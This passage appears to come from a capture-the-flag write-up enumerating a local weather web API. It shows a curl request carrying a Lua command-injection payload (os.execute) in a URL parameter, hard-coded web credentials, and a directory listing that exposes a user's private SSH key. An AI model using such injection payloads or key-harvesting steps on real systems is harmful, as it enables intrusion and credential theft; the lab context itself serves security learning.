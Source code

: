 * same page that get from the port 80 login.
* tested the code execution vulnerability here on port 3001 and it looks line local server is not vulnerable for command execution -

	  $ curl --user webapi_user:iamthebest "http://127.0.0.1:3001/weather/forecast?city=%27%29%3Bos.execute%28%22id%22%29--"
	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
									 Dload  Upload   Total   Spent    Left  Speed
	  100    60    0    60    0     0  30000      0 --:--:-- --:--:-- --:--:-- 30000
	  {"code": 500,"error": "unknown city: ');os.execute("id")--"}

* Running server is nginx and like apache2 [mod_userdir](https://httpd.apache.org/docs/2.4/mod/mod_userdir.html) nginx also have this option. this allow user to create a shared dir in the `home/<user>` folder can be accessible form server with using  `~` in prefix.

* and the server on port 3001 is run by the user r.michaels

	`ps -aux | grep 185`

	  r.michaels  185  0.0  0.0  34996  2004 ?     Is    6:18AM 0:00.00 /usr/libexec/httpd -u -X -s -i 127.0.0.1 -I 3001 -L weather /home/r.michaels/devel/webapi/weather.lua -P /var/run/httpd_devel.pid -U r.michaels -b /home/r.michaels/devel/www 

* and when testing for shared folder i found the user r.michaels ssh key's copy in the shared folder -
```diff
$ curl --user webapi_user:iamthebest "http://127.0.0.1:3001/~r.michaels/"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   601    0   601    0     0   195k      0 --:--:-- --:--:-- --:--:--  195k
<!DOCTYPE html>
<html><head><meta charset="utf-8"/>
<style type="text/css">
table {
        border-top: 1px solid black;
        border-bottom: 1px solid black;
}
th { background: aquamarine; }
tr:nth-child(even) { background: lavender; }
</style>
<title>Index of ~r.michaels/</title></head>
<body><h1>Index of ~r.michaels/</h1>
<table cols=3>
<thead>
<tr><th>Name<th>Last modified<th align=right>Size
<tbody>
+<tr><td><a href="../">Parent Directory</a><td>16-Sep-2020 18:20<td align=right>1kB
+<tr><td><a href="id_rsa">id_rsa</a><td>16-Sep-2020 16:52<td align=right>3kB
</table>
</body></html>
```

## USER:r.michaels shell
